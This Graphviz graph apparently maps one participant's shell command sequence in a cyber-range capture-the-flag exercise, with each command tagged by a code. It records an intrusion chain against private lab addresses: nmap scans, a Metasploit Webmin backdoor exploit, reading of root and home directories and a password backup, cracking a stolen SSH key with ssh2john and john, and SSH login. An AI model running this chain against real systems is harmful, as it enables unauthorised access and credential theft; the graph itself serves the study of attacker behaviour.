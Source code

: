 // creating graph for user: 56
digraph {
	node [shape=box]
	0 [label="nmap 172.18.1.15 A0 A1 "]
	1 [label="nmap -Pn 172.18.1.15 A0 A1 "]
	2 [label="nmap -Pn -p- 172.18.1.15 A0 A1 "]
	3 [label="ls A10 "]
	4 [label="nmap 172.18.1.5 M0 "]
	5 [label="nmap -sC 172.18.1.5 V0 "]
	6 [label="nmap -sV 172.18.1.5 M1 "]
	7 [label="nmap -sC -sV -p 10000 172.18.1.5 V1 "]
	8 [label="msfconsole M2 "]
	9 [label="search miniserv A3 "]
	10 [label="search Miniserv A3 "]
	11 [label="search 1.920 A3 "]
	12 [label="search webmin M3 "]
	13 [label="searchsploit webmin V3 "]
	14 [label="searchsploit -m exploits/linux/remote/47230.rb M8 "]
	15 [label="nano /usr/share/exploitdb/exploits/linux/remote/47230.rb V8 "]
	16 [label="chmod +x /usr/share/exploitdb/exploits/linux/remote/47230.rb V8 "]
	17 [label="cd /usr/share/exploitdb/exploits/linux/remote/ V8 "]
	18 [label="ls A10 "]
	19 [label="./47230.rb U"]
	20 [label="use /usr/share/exploitdb/exploits/linux/remote/47230.rb V8 "]
	21 [label="search 1.920 A3 "]
	22 [label="ruby 47230.rb U"]
	23 [label="./47230.rb U"]
	24 [label="nano 47230.rb U"]
	25 [label="use exploit/unix/webapp/webmin_backdoor V8 "]
	26 [label="show options M5 "]
	27 [label="set LHOST=10.1.135.83 M6 "]
	28 [label="show options  V5 "]
	29 [label="set LHOST=10.1.153.83 V6 "]
	30 [label="set LHOST 10.1.153.83 V6 "]
	31 [label="exploit V8 "]
	32 [label="show options V5 "]
	33 [label="set RHOSTS 172.18.1.5 V6 "]
	34 [label="exploit V8 "]
	35 [label="set RPORT 10000 V6 "]
	36 [label="exploit  V8 "]
	37 [label="show options  V5 "]
	38 [label="set LHOST 192.168.129.103 V6 "]
	39 [label="exploit  V8 "]
	40 [label="cat /root/flag A1 A9 A11 A12 A17 "]
	41 [label="cd /root/  A10 "]
	42 [label="cat config A1 A9 A11 A12 A17 "]
	43 [label="cat webmin.schema V1 "]
	44 [label="cat help A1 A9 A11 A12 A17 "]
	45 [label="ls A10 "]
	46 [label="cat module.info.cz A1 A9 A11 A12 A17 "]
	47 [label="cat schema.cgi A1 A9 A11 A12 A17 "]
	48 [label="cat config A1 A9 A11 A12 A17 "]
	49 [label="ls A10 "]
	50 [label="cat webmin.schema V1 "]
	51 [label="ls A10 "]
	52 [label="cat schema.cgi A1 A9 A11 A12 A17 "]
	53 [label="cat backup_config.pl A1 A9 A11 A12 A17 "]
	54 [label="ls -la A10 "]
	55 [label="cat config.info.hr A1 A9 A11 A12 A17 "]
	56 [label="ls A10 "]
	57 [label="find /root/*[0-9][0-9][0-9][0-0][0-9] A10 "]
	58 [label="find /root/*[0-9][0-9][0-9][0-0][0-9]* A10 "]
	59 [label="grep -rnw /root/ U"]
	60 [label="wget http://raw.githubusercontent.com/petrmarinec/awdawd/master/FILE A4 "]
	61 [label="ls A10 "]
	62 [label="cat FILE A1 A9 A11 A12 A17 "]
	63 [label="grep -rnw /root/ -e '[0-9]+([^0-9]+[0-9]+){4}' U"]
	64 [label="ls A10 "]
	65 [label="y U"]
	66 [label="cd /root/ U"]
	67 [label="ls A10 "]
	68 [label="cat WARNING-READ-ME.txt M9 "]
	69 [label="ifconfig U"]
	70 [label="nmap 172.18.1.5/24 V0 "]
	71 [label="ps aux U"]
	72 [label="ifconfig U"]
	73 [label="nmap 172.18.1.5 V0 "]
	74 [label="nmap 172.18.1.5/24 V0 "]
	75 [label="nmap 172.18.1.1 A0 A1 "]
	76 [label="nmap 172.18.1.1/24 A0 A1 "]
	77 [label="nmap 172.18.1.5 V0 "]
	78 [label="ls A10 "]
	79 [label="cat WARNIN-READ-ME.txt A1 A9 A11 A12 A17 "]
	80 [label="cat WARNING-READ-ME.txt V9 "]
	81 [label="ls A10 "]
	82 [label="cd /root/ U"]
	83 [label="ls A10 "]
	84 [label="cat WARNING-READ-ME.txt V9 "]
	85 [label="ls A10 "]
	86 [label="ifconfig U"]
	87 [label="fping -ag 172.18.1.5/24 U"]
	88 [label="apt get-install nmap A0 A1 "]
	89 [label="nmap A0 A1 "]
	90 [label="ls A10 "]
	91 [label="cd /var U"]
	92 [label="ls A10 "]
	93 [label="cd webmin U"]
	94 [label="ls A10 "]
	95 [label="cat miniserv.log A1 A9 A11 A12 A17 "]
	96 [label="clear U"]
	97 [label="export TERM=xterm U"]
	98 [label="clear U"]
	99 [label="l U"]
	100 [label="ls A10 "]
	101 [label="cd .. U"]
	102 [label="ls A10 "]
	103 [label="cd backups U"]
	104 [label="ls A10 "]
	105 [label="cd /home U"]
	106 [label="ls A10 "]
	107 [label="cd alice U"]
	108 [label="ls A10 "]
	109 [label="ls -la A10 "]
	110 [label="cat .bashrc A1 A9 A11 A12 A17 "]
	111 [label="cd .. U"]
	112 [label="ls A10 "]
	113 [label="cd bob U"]
	114 [label="ls A10 "]
	115 [label="cd .. U"]
	116 [label="cd debian U"]
	117 [label="ls A10 "]
	118 [label="cd .. U"]
	119 [label="cd eve U"]
	120 [label="ls A10 "]
	121 [label="cd .. U"]
	122 [label="cd bob U"]
	123 [label="cd /var U"]
	124 [label="ls A10 "]
	125 [label="cd local U"]
	126 [label="ls A10 "]
	127 [label="cd .. U"]
	128 [label="cd webmin U"]
	129 [label="ls A10 "]
	130 [label="ls A10 "]
	131 [label="cat miniserv.log A1 A9 A11 A12 A17 "]
	132 [label="ls A10 "]
	133 [label="nmap A0 A1 "]
	134 [label="ls A10 "]
	135 [label="cd .. U"]
	136 [label="ls A10 "]
	137 [label="cd backusp U"]
	138 [label="ls A10 "]
	139 [label="cd backups U"]
	140 [label="ls A10 "]
	141 [label="cat passwd.bak A1 A9 A11 A12 A17 "]
	142 [label="clear U"]
	143 [label="ls A10 "]
	144 [label="cd .. U"]
	145 [label="cd .. U"]
	146 [label="ls A10 "]
	147 [label="cd /home U"]
	148 [label="ls A10 "]
	149 [label="cd /home U"]
	150 [label="ls A10 "]
	151 [label="cd alice U"]
	152 [label="ls A10 "]
	153 [label="ls -la A10 "]
	154 [label="cat .bash_logout A1 A9 A11 A12 A17 "]
	155 [label="cd .. U"]
	156 [label="ls A10 "]
	157 [label="cd bob U"]
	158 [label="ls A10 "]
	159 [label="ls -la A10 "]
	160 [label="cat .profile A1 A9 A11 A12 A17 "]
	161 [label="cd .. U"]
	162 [label="ls A10 "]
	163 [label="cd debian U"]
	164 [label="ls -la A10 "]
	165 [label="cat .bashrc A1 A9 A11 A12 A17 "]
	166 [label="ls A10 "]
	167 [label="ls -la A10 "]
	168 [label="cat .ansible A1 A9 A11 A12 A17 "]
	169 [label="cd .ansible U"]
	170 [label="ls A10 "]
	171 [label="cd tmp U"]
	172 [label="ls A10 "]
	173 [label="ls -la A10 "]
	174 [label="cd .. U"]
	175 [label="ls -la A10 "]
	176 [label="ls A10 "]
	177 [label="cd .. U"]
	178 [label="ls A10 "]
	179 [label="ls -la A10 "]
	180 [label="cat .bash_logout A1 A9 A11 A12 A17 "]
	181 [label="ls A10 "]
	182 [label="msfconsole V2 "]
	183 [label="use unix/webapp/webmin_backdoor V4 "]
	184 [label="show options V5 "]
	185 [label="set RHOSTS 172.18.1.5 V6 "]
	186 [label="set LHOST 10.1.135.83 V6 "]
	187 [label="set RPORT 10000 V6 "]
	188 [label="cat .progle A1 A9 A11 A12 A17 "]
	189 [label="ls A10 "]
	190 [label="cd /root/ U"]
	191 [label="export TERM=xterm U"]
	192 [label="clear U"]
	193 [label="ls A10 "]
	194 [label="cd /home U"]
	195 [label="ls A10 "]
	196 [label="cd eve U"]
	197 [label="ls A10 "]
	198 [label="ls -la A10 "]
	199 [label="cat .bash_history M11 "]
	200 [label="cd /var/www U"]
	201 [label="ls A10 "]
	202 [label="cd /var U"]
	203 [label="ls A10 "]
	204 [label="cd webmin U"]
	205 [label="ls A10 "]
	206 [label="cat blocked A1 A9 A11 A12 A17 "]
	207 [label="cd blocked U"]
	208 [label="cd .. U"]
	209 [label="ls A10 "]
	210 [label="cd local U"]
	211 [label="ls A10 "]
	212 [label="cd .. U"]
	213 [label="ls A10 "]
	214 [label="scp 10.1.17.4 U"]
	215 [label="ls A10 "]
	216 [label="ssh 10.1.17.4 A16 "]
	217 [label="ls A10 "]
	218 [label="cd backups U"]
	219 [label="ls A10 "]
	220 [label="cat passwd.bak A1 A9 A11 A12 A17 "]
	221 [label="ls A10 "]
	222 [label="cd .. U"]
	223 [label="l U"]
	224 [label="sls A10 "]
	225 [label="ls A10 "]
	226 [label="cd local U"]
	227 [label="ls A10 "]
	228 [label="cd .. U"]
	229 [label="cd log U"]
	230 [label="ls A10 "]
	231 [label="cat user.log A1 A4 A9 A11 A12 A17 "]
	232 [label="ls A10 "]
	233 [label="cd .. U"]
	234 [label="l U"]
	235 [label="ls A10 "]
	236 [label="cd lock U"]
	237 [label="l U"]
	238 [label="sls A10 "]
	239 [label="cd .. U"]
	240 [label="ls A10 "]
	241 [label="cd mail U"]
	242 [label="ls A10 "]
	243 [label="cd .. U"]
	244 [label="find / -perm -4000 2>/dev/null A10 "]
	245 [label="ls A10 "]
	246 [label="cd webmin U"]
	247 [label="ls A10 "]
	248 [label="cd .. U"]
	249 [label="ls A10 "]
	250 [label="ifconfig U"]
	251 [label="ls A10 "]
	252 [label="ls A10 "]
	253 [label="ls A10 "]
	254 [label="cd /home U"]
	255 [label="ls A10 "]
	256 [label="cd eve U"]
	257 [label="cd .ssh A16 "]
	258 [label="ls A10 "]
	259 [label="exploit V8 "]
	260 [label="ssh -i id_rsa -l eve 10.1.17.4 M16 "]
	261 [label="cd /home/eve U"]
	262 [label="ls A10 "]
	263 [label="cd .ssh A16 "]
	264 [label="l U"]
	265 [label="ls A10 "]
	266 [label="ssh -i id_rsa eve@10.1.17.4 V16 "]
	267 [label="cat id_rsa M12 "]
	268 [label="ssh2john A14 A16 "]
	269 [label="cat id_rsa V12 "]
	270 [label="touch id_rsa U"]
	271 [label="nano id_rsa U"]
	272 [label="nano id_rsa U"]
	273 [label="ls A10 "]
	274 [label="ss2john.py id_rsa A14 "]
	275 [label="python ssh2john.py id_rsa M13 "]
	276 [label="python ssh2john.py id_rsa > hash V13 "]
	277 [label="john hash A14 "]
	278 [label="ls A10 "]
	279 [label="ls A10 "]
	280 [label="cat id_rsa V12 "]
	281 [label="john hash A14 "]
	282 [label="cd /usr/share/ U"]
	283 [label="ls A10 "]
	284 [label="cd wordlists/ U"]
	285 [label="ls A10 "]
	286 [label="john /root/hash --wordlist=rockyou.txt M14 "]
	287 [label="ssh -i id_rsa eve@10.1.17.4 V16 "]
	288 [label="ls A10 "]
	289 [label="cat top-secret A1 A9 A11 A12 A17 "]
	290 [label="cd top-secret U"]
	291 [label="ls A10 "]
	292 [label="cat flag.txt M17 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 85 [constraint=false]
	85 -> 86 [constraint=false]
	86 -> 87 [constraint=false]
	87 -> 88 [constraint=false]
	88 -> 89 [constraint=false]
	89 -> 90 [constraint=false]
	90 -> 91 [constraint=false]
	91 -> 92 [constraint=false]
	92 -> 93 [constraint=false]
	93 -> 94 [constraint=false]
	94 -> 95 [constraint=false]
	95 -> 96 [constraint=false]
	96 -> 97 [constraint=false]
	97 -> 98 [constraint=false]
	98 -> 99 [constraint=false]
	99 -> 100 [constraint=false]
	100 -> 101 [constraint=false]
	101 -> 102 [constraint=false]
	102 -> 103 [constraint=false]
	103 -> 104 [constraint=false]
	104 -> 105 [constraint=false]
	105 -> 106 [constraint=false]
	106 -> 107 [constraint=false]
	107 -> 108 [constraint=false]
	108 -> 109 [constraint=false]
	109 -> 110 [constraint=false]
	110 -> 111 [constraint=false]
	111 -> 112 [constraint=false]
	112 -> 113 [constraint=false]
	113 -> 114 [constraint=false]
	114 -> 115 [constraint=false]
	115 -> 116 [constraint=false]
	116 -> 117 [constraint=false]
	117 -> 118 [constraint=false]
	118 -> 119 [constraint=false]
	119 -> 120 [constraint=false]
	120 -> 121 [constraint=false]
	121 -> 122 [constraint=false]
	122 -> 123 [constraint=false]
	123 -> 124 [constraint=false]
	124 -> 125 [constraint=false]
	125 -> 126 [constraint=false]
	126 -> 127 [constraint=false]
	127 -> 128 [constraint=false]
	128 -> 129 [constraint=false]
	129 -> 130 [constraint=false]
	130 -> 131 [constraint=false]
	131 -> 132 [constraint=false]
	132 -> 133 [constraint=false]
	133 -> 134 [constraint=false]
	134 -> 135 [constraint=false]
	135 -> 136 [constraint=false]
	136 -> 137 [constraint=false]
	137 -> 138 [constraint=false]
	138 -> 139 [constraint=false]
	139 -> 140 [constraint=false]
	140 -> 141 [constraint=false]
	141 -> 142 [constraint=false]
	142 -> 143 [constraint=false]
	143 -> 144 [constraint=false]
	144 -> 145 [constraint=false]
	145 -> 146 [constraint=false]
	146 -> 147 [constraint=false]
	147 -> 148 [constraint=false]
	148 -> 149 [constraint=false]
	149 -> 150 [constraint=false]
	150 -> 151 [constraint=false]
	151 -> 152 [constraint=false]
	152 -> 153 [constraint=false]
	153 -> 154 [constraint=false]
	154 -> 155 [constraint=false]
	155 -> 156 [constraint=false]
	156 -> 157 [constraint=false]
	157 -> 158 [constraint=false]
	158 -> 159 [constraint=false]
	159 -> 160 [constraint=false]
	160 -> 161 [constraint=false]
	161 -> 162 [constraint=false]
	162 -> 163 [constraint=false]
	163 -> 164 [constraint=false]
	164 -> 165 [constraint=false]
	165 -> 166 [constraint=false]
	166 -> 167 [constraint=false]
	167 -> 168 [constraint=false]
	168 -> 169 [constraint=false]
	169 -> 170 [constraint=false]
	170 -> 171 [constraint=false]
	171 -> 172 [constraint=false]
	172 -> 173 [constraint=false]
	173 -> 174 [constraint=false]
	174 -> 175 [constraint=false]
	175 -> 176 [constraint=false]
	176 -> 177 [constraint=false]
	177 -> 178 [constraint=false]
	178 -> 179 [constraint=false]
	179 -> 180 [constraint=false]
	180 -> 181 [constraint=false]
	181 -> 182 [constraint=false]
	182 -> 183 [constraint=false]
	183 -> 184 [constraint=false]
	184 -> 185 [constraint=false]
	185 -> 186 [constraint=false]
	186 -> 187 [constraint=false]
	187 -> 188 [constraint=false]
	188 -> 189 [constraint=false]
	189 -> 190 [constraint=false]
	190 -> 191 [constraint=false]
	191 -> 192 [constraint=false]
	192 -> 193 [constraint=false]
	193 -> 194 [constraint=false]
	194 -> 195 [constraint=false]
	195 -> 196 [constraint=false]
	196 -> 197 [constraint=false]
	197 -> 198 [constraint=false]
	198 -> 199 [constraint=false]
	199 -> 200 [constraint=false]
	200 -> 201 [constraint=false]
	201 -> 202 [constraint=false]
	202 -> 203 [constraint=false]
	203 -> 204 [constraint=false]
	204 -> 205 [constraint=false]
	205 -> 206 [constraint=false]
	206 -> 207 [constraint=false]
	207 -> 208 [constraint=false]
	208 -> 209 [constraint=false]
	209 -> 210 [constraint=false]
	210 -> 211 [constraint=false]
	211 -> 212 [constraint=false]
	212 -> 213 [constraint=false]
	213 -> 214 [constraint=false]
	214 -> 215 [constraint=false]
	215 -> 216 [constraint=false]
	216 -> 217 [constraint=false]
	217 -> 218 [constraint=false]
	218 -> 219 [constraint=false]
	219 -> 220 [constraint=false]
	220 -> 221 [constraint=false]
	221 -> 222 [constraint=false]
	222 -> 223 [constraint=false]
	223 -> 224 [constraint=false]
	224 -> 225 [constraint=false]
	225 -> 226 [constraint=false]
	226 -> 227 [constraint=false]
	227 -> 228 [constraint=false]
	228 -> 229 [constraint=false]
	229 -> 230 [constraint=false]
	230 -> 231 [constraint=false]
	231 -> 232 [constraint=false]
	232 -> 233 [constraint=false]
	233 -> 234 [constraint=false]
	234 -> 235 [constraint=false]
	235 -> 236 [constraint=false]
	236 -> 237 [constraint=false]
	237 -> 238 [constraint=false]
	238 -> 239 [constraint=false]
	239 -> 240 [constraint=false]
	240 -> 241 [constraint=false]
	241 -> 242 [constraint=false]
	242 -> 243 [constraint=false]
	243 -> 244 [constraint=false]
	244 -> 245 [constraint=false]
	245 -> 246 [constraint=false]
	246 -> 247 [constraint=false]
	247 -> 248 [constraint=false]
	248 -> 249 [constraint=false]
	249 -> 250 [constraint=false]
	250 -> 251 [constraint=false]
	251 -> 252 [constraint=false]
	252 -> 253 [constraint=false]
	253 -> 254 [constraint=false]
	254 -> 255 [constraint=false]
	255 -> 256 [constraint=false]
	256 -> 257 [constraint=false]
	257 -> 258 [constraint=false]
	258 -> 259 [constraint=false]
	259 -> 260 [constraint=false]
	260 -> 261 [constraint=false]
	261 -> 262 [constraint=false]
	262 -> 263 [constraint=false]
	263 -> 264 [constraint=false]
	264 -> 265 [constraint=false]
	265 -> 266 [constraint=false]
	266 -> 267 [constraint=false]
	267 -> 268 [constraint=false]
	268 -> 269 [constraint=false]
	269 -> 270 [constraint=false]
	270 -> 271 [constraint=false]
	271 -> 272 [constraint=false]
	272 -> 273 [constraint=false]
	273 -> 274 [constraint=false]
	274 -> 275 [constraint=false]
	275 -> 276 [constraint=false]
	276 -> 277 [constraint=false]
	277 -> 278 [constraint=false]
	278 -> 279 [constraint=false]
	279 -> 280 [constraint=false]
	280 -> 281 [constraint=false]
	281 -> 282 [constraint=false]
	282 -> 283 [constraint=false]
	283 -> 284 [constraint=false]
	284 -> 285 [constraint=false]
	285 -> 286 [constraint=false]
	286 -> 287 [constraint=false]
	287 -> 288 [constraint=false]
	288 -> 289 [constraint=false]
	289 -> 290 [constraint=false]
	290 -> 291 [constraint=false]
	291 -> 292 [constraint=false]
	rankdir=LR
}
